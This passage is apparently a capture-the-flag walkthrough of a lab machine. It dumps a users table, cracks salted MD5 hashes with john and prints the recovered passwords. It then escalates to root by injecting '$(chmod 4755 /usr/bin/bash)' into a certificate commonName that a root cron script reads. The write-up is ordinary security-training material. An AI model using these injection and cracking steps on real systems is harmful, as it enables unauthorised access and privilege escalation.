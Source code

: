 Check the tables with command: \d
 
![image](https://user-images.githubusercontent.com/93153300/212941449-6155556e-3705-458a-b570-7b43af836b56.png)

Dump the ‘users’ table with command: select * from users; <br>
The ‘users’ table dumps usernames and password hashes:
 
![image](https://user-images.githubusercontent.com/93153300/212941488-5fb7f4a7-7046-4c61-8c99-e61d670a1022.png)

Create a file containing these hashes (we will call the filename ‘hashes’):
 
![image](https://user-images.githubusercontent.com/93153300/212941524-8e2f53be-a090-4038-a044-12740aefde08.png)

Using john/hashcat does not crack the hashes.  Looking back at the file ‘db_connect.php’ we see that we are given a salt value.   In order to crack these hashes we need to add in the salt to the beginning of every word in our wordlist.  To do this run the command: <br>
sed 's/^/NaCl/g' /usr/share/wordlists/rockyou.txt > newrockyou.txt

Next, run john with the new wordlist: john hashes --wordlist=newrockyou.txt --format=raw-md5

John cracks 2 hashes: <br>
NaCliluvhorsesandgym (bill)  <br> 
NaCl2applesplus2apples (michael) <br>
Remove the salt value of ‘NaCl’ and ssh into bill: <br>
ssh bill@broscience.htb  → enter the password when prompted.

We have shell as bill.  Go to /home/bill/user.txt to get the flag.
__________________________________________________
<b>Privilege Escalation</b><br>
Upload pspy to the target and run pspy.  Pspy shows: <br> <br>
timeout 10 /bin/bash -c /opt/renew_cert.sh /home/bill/Certs/broscience.crt

Pspy shows that the file /opt/renew_cert.sh is being run by root every minute.  Check what the file /opt/renew_cert.sh does.  Reading the file /opt/renew_cert.sh shows:

![image](https://user-images.githubusercontent.com/93153300/212942529-125efb48-3c13-43c0-8044-f834a423ce78.png)
![image](https://user-images.githubusercontent.com/93153300/212942578-8abaf0cf-2e7d-4f6f-9618-a981b7aebe34.png)



![image](https://user-images.githubusercontent.com/93153300/212942689-e325a7e1-45fd-4e13-be8a-7ba9e6d984c9.png)






The file /opt/renew_cert.sh shows that it’s a command to create a certificate, and it uses the .crt file we give it.  Based on this information, we can get privilege escalation to root with the following steps:

Step 1: Run the command to create a certificate: openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /home/bill/Certs/broscience.key -out /home/bill/Certs/broscience.crt -days 1 <br>
Step 2: Set ‘$commonName’ to be a command to get suid on /usr/bin/bash.  When prompted to enter information for 'commonName' then enter: \$(chmod 4755 /usr/bin/bash) <br>
Step 3: Wait a few moments until the script is run by root.  Instead of checking every few seconds to see if the script was run by root, use the command: Watch -g ls -al /usr/bin/bash <br>
Step 4: Run the command: /usr/bin/bash -p

We have shell as root.  We can get the flag in /root/root.txt
